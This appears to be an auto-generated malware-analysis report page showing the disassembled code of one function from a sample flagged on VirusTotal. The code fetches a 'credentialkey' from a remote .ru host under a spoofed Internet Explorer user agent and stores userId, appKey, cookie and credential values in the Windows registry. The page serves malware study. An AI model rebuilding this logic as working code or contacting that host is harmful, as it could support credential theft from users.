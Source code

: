 ```yaml
---
layout: post
title:  "fcn.00407e1a @ 4bd33f73402d0d03c0318f793884eb34"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.00407e1a
- **Origin (md5):** 4bd33f73402d0d03c0318f793884eb34
- **VirusTotal:** [virustotal.com/gui/file/4bd33f73402d0d03c0318f793884eb34][virustotal_ref]

# Code Tags
<span class="tag" id="REGISTRY">REGISTRY</span>
<span class="tag" id="HTTP">HTTP</span>
<span class="tag" id="SOCKET">SOCKET</span>


# Similar Functions

1. [fcn.00406555][similar_1_ref] (sim.: 0.9172963224118159)
2. [fcn.0040735c][similar_2_ref] (sim.: 0.8951422243839257)
3. [fcn.004097f6][similar_3_ref] (sim.: 0.8922084968670498)
4. [fcn.00418b63][similar_4_ref] (sim.: 0.8898673356925417)
5. [fcn.00405750][similar_5_ref] (sim.: 0.8836133773291319)


# Disassembled Code

{% highlight nasm %}
mov eax,0x43d5c7
call fcn.0043c04c
sub esp,0xa0
push ebx
push esi
push edi
push 0xf
pop esi
push 0x22
xor ebx,ebx
push str.https:__gnlogin.ru__credentialkey
lea ecx,[ebp-0x70]
mov dword[ebp-0x5c],esi
mov dword[ebp-0x60],ebx
mov byte[ebp-0x70],bl
call fcn.00401f77
push 0xffffffffffffffff
push ebx
mov dword[ebp-4],ebx
push dword[ebp+0xc]
lea ecx,[ebp-0x70]
call fcn.004052ff
mov dword[ebp-0x78],esi
mov dword[ebp-0x7c],ebx
mov byte[ebp-0x8c],bl
mov byte[ebp-4],1
mov eax,dword[ebp+8]
cmp dword[eax+0x28],ebx
je 0x407f2d
push ebx
push ebx
push ebx
push ebx
push str.Installer__compatible__MSIE_6.0b__Windows_NT_5.0__.NET_CLR_1.0.2914_
call dword[sym.imp.WININET.dll_InternetOpenA]
mov esi,eax
mov dword[ebp-0x48],esi
cmp esi,ebx
je 0x407f2d
cmp dword[ebp-0x5c],0x10
mov eax,dword[ebp-0x70]
jae 0x407e9f
lea eax,[ebp-0x70]
push ebx
push 0x84403900
push 0xffffffffffffffff
push str.Accept:__
push eax
push esi
call dword[sym.imp.WININET.dll_InternetOpenUrlA]
mov dword[ebp+0xc],eax
mov byte[ebp-4],3
cmp eax,ebx
jne 0x407ec8
push esi
call dword[sym.imp.WININET.dll_InternetCloseHandle]
jmp 0x407f2d
mov edi,0x20000
lea esi,[ebp-0x20]
mov dword[ebp+8],ebx
mov dword[ebp-0x4c],ebx
call fcn.00406826
mov byte[ebp-4],4
mov edi,dword[ebp-0x20]
cmp edi,ebx
jne 0x407ee9
push ebx
jmp 0x407f17
mov esi,dword[sym.imp.WININET.dll_InternetReadFile]
jmp 0x407f05
cmp dword[ebp+8],ebx
jbe 0x407f5c
push dword[ebp+8]
lea ecx,[ebp-0x8c]
push edi
call fcn.004050b3
lea eax,[ebp+8]
push eax
push dword[ebp-0x1c]
push edi
push dword[ebp+0xc]
call esi
test eax,eax
jne 0x407ef1
push edi
call fcn.00423efe
mov esi,dword[sym.imp.WININET.dll_InternetCloseHandle]
pop ecx
push dword[ebp+0xc]
call esi
push dword[ebp-0x48]
call esi
push 3
pop esi
push ebx
push 1
lea ecx,[ebp-0x8c]
call fcn.00401bdc
push ebx
push 1
lea ecx,[ebp-0x70]
call fcn.00401bdc
mov ecx,dword[ebp-0xc]
pop edi
mov eax,esi
pop esi
mov dword fs:[0],ecx
pop ebx
leave
ret 8
push ebx
lea eax,[ebp-0x54]
push eax
lea eax,[ebp-0x4c]
push eax
push 0x20000013
push dword[ebp+0xc]
mov dword[ebp-0x54],4
call dword[sym.imp.WININET.dll_HttpQueryInfoW]
test eax,eax
je 0x407f16
cmp dword[ebp-0x4c],0xc8
jne 0x407f16
push edi
call fcn.00423efe
mov esi,dword[sym.imp.WININET.dll_InternetCloseHandle]
pop ecx
push dword[ebp+0xc]
call esi
push dword[ebp-0x48]
call esi
cmp dword[ebp-0x78],0x10
mov eax,dword[ebp-0x8c]
mov dword[ebp-0x50],ebx
jae 0x407fb3
lea eax,[ebp-0x8c]
lea ecx,[ebp-0x50]
push ecx
push 0x4426e8
push eax
call fcn.004240c6
add esp,0xc
xor edi,edi
mov esi,eax
mov dword[ebp-0x28],ebx
mov dword[ebp-0x24],edi
mov dword[ebp-0x20],ebx
mov byte[ebp-4],5
jmp 0x408085
push esi
lea ecx,[ebp-0x44]
mov dword[ebp-0x30],0xf
mov dword[ebp-0x34],ebx
mov byte[ebp-0x44],bl
call fcn.00401bb9
lea eax,[ebp-0x44]
mov byte[ebp-4],6
cmp eax,edi
jae 0x408033
cmp dword[ebp-0x28],eax
ja 0x408033
sub eax,dword[ebp-0x28]
push 0x1c
cdq
pop ecx
idiv ecx
mov esi,eax
cmp edi,dword[ebp-0x20]
jne 0x40801c
lea ecx,[ebp-0x28]
call fcn.004085f9
mov edi,dword[ebp-0x24]
imul esi,esi,0x1c
add esi,dword[ebp-0x28]
mov dword[ebp+0xc],edi
mov dword[ebp+8],edi
mov byte[ebp-4],7
cmp edi,ebx
je 0x40805c
push esi
jmp 0x408055
cmp edi,dword[ebp-0x20]
jne 0x408043
lea ecx,[ebp-0x28]
call fcn.004085f9
mov edi,dword[ebp-0x24]
mov dword[ebp+0xc],edi
mov dword[ebp+8],edi
mov byte[ebp-4],8
cmp edi,ebx
je 0x40805c
lea eax,[ebp-0x44]
push eax
mov ecx,edi
call fcn.00402834
lea eax,[ebp-0x50]
push eax
push 0x4426e8
add edi,0x1c
push ebx
mov dword[ebp-0x24],edi
call fcn.004240c6
add esp,0xc
push ebx
push 1
lea ecx,[ebp-0x44]
mov esi,eax
mov byte[ebp-4],5
call fcn.00401bdc
cmp esi,ebx
jne 0x407fdb
mov esi,dword[ebp-0x28]
mov eax,edi
sub eax,esi
push 0x1c
cdq
pop ecx
idiv ecx
cmp eax,4
jae 0x4080c6
cmp esi,ebx
je 0x4080bf
jmp 0x4080b2
push ebx
push 1
mov ecx,esi
call fcn.00401bdc
add esi,0x1c
cmp esi,edi
jne 0x4080a5
push dword[ebp-0x28]
call fcn.00423efe
pop ecx
push 2
jmp 0x407f2f
push 0x12
push str.SoftwareGGSQGNA
lea ecx,[ebp-0xa8]
mov dword[ebp-0x94],0xf
mov dword[ebp-0x98],ebx
mov byte[ebp-0xa8],bl
call fcn.00401f77
xor edx,edx
lea ecx,[ebp-0xa8]
inc edx
lea esi,[ebp-0x18]
call fcn.0040750e
push ebx
push 1
lea ecx,[ebp-0xa8]
mov byte[ebp-4],9
call fcn.00401bdc
push 0xf
pop esi
push 6
push str.userId
lea ecx,[ebp-0x44]
mov dword[ebp-0x30],esi
mov dword[ebp-0x34],ebx
mov byte[ebp-0x44],bl
call fcn.00401f77
push ebx
lea eax,[ebp-0x28]
mov byte[ebp-4],0xa
call fcn.0040b4fa
lea ecx,[ebp-0x44]
lea edx,[ebp-0x18]
call fcn.0040756c
push ebx
push 1
lea ecx,[ebp-0x44]
mov byte[ebp-4],9
call fcn.00401bdc
push 6
push str.appKey
lea ecx,[ebp-0x44]
mov dword[ebp-0x30],esi
mov dword[ebp-0x34],ebx
mov byte[ebp-0x44],bl
call fcn.00401f77
push 1
lea eax,[ebp-0x28]
mov byte[ebp-4],0xb
call fcn.0040b4fa
lea ecx,[ebp-0x44]
lea edx,[ebp-0x18]
call fcn.0040756c
push ebx
push 1
lea ecx,[ebp-0x44]
mov byte[ebp-4],9
call fcn.00401bdc
push 6
push str.cookie
lea ecx,[ebp-0x44]
mov dword[ebp-0x30],esi
mov dword[ebp-0x34],ebx
mov byte[ebp-0x44],bl
call fcn.00401f77
push 2
lea eax,[ebp-0x28]
mov byte[ebp-4],0xc
call fcn.0040b4fa
lea ecx,[ebp-0x44]
lea edx,[ebp-0x18]
call fcn.0040756c
push ebx
push 1
lea ecx,[ebp-0x44]
mov byte[ebp-4],9
call fcn.00401bdc
mov dword[ebp-0x30],esi
push 3
push 0x442718
lea ecx,[ebp-0x44]
mov dword[ebp-0x34],ebx
mov byte[ebp-0x44],bl
call fcn.00401f77
push 3
lea eax,[ebp-0x28]
mov byte[ebp-4],0xd
call fcn.0040b4fa
lea ecx,[ebp-0x44]
lea edx,[ebp-0x18]
call fcn.0040756c
push ebx
push 1
lea ecx,[ebp-0x44]
mov byte[ebp-4],9
call fcn.00401bdc
push 0xe
push str.SaveCredential
lea ecx,[ebp-0x44]
mov dword[ebp-0x30],esi
mov dword[ebp-0x34],ebx
mov byte[ebp-0x44],bl
call fcn.00401f77
xor esi,esi
inc esi
mov dword[ebp+0xc],esi
cmp byte[ebp-0x14],bl
je 0x408255
cmp dword[ebp-0x30],0x10
mov eax,dword[ebp-0x44]
jae 0x408242
lea eax,[ebp-0x44]
push 4
lea ecx,[ebp+0xc]
push ecx
push 4
push ebx
push eax
push dword[ebp-0x18]
call dword[sym.imp.ADVAPI32.dll_RegSetValueExA]
push ebx
push esi
lea ecx,[ebp-0x44]
call fcn.00401bdc
cmp byte[ebp-0x14],bl
je 0x40826d
push dword[ebp-0x18]
call dword[sym.imp.ADVAPI32.dll_RegCloseKey]
mov esi,dword[ebp-0x28]
cmp esi,ebx
je 0x408290
jmp 0x408283
push ebx
push 1
mov ecx,esi
call fcn.00401bdc
add esi,0x1c
cmp esi,edi
jne 0x408276
push dword[ebp-0x28]
call fcn.00423efe
pop ecx
xor esi,esi
inc esi
jmp 0x407f30
{% endhighlight %}


[similar_1_ref]: /report/fcn.00406555@ba5ec83721de3ca10b3c9583f3b2c6a1
[similar_2_ref]: /report/fcn.0040735c@4bd33f73402d0d03c0318f793884eb34
[similar_3_ref]: /report/fcn.004097f6@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_4_ref]: /report/fcn.00418b63@ba5ec83721de3ca10b3c9583f3b2c6a1
[similar_5_ref]: /report/fcn.00405750@69b3c79878674ea715338a112bb5caa6
[virustotal_ref]: https://www.virustotal.com/gui/file/4bd33f73402d0d03c0318f793884eb34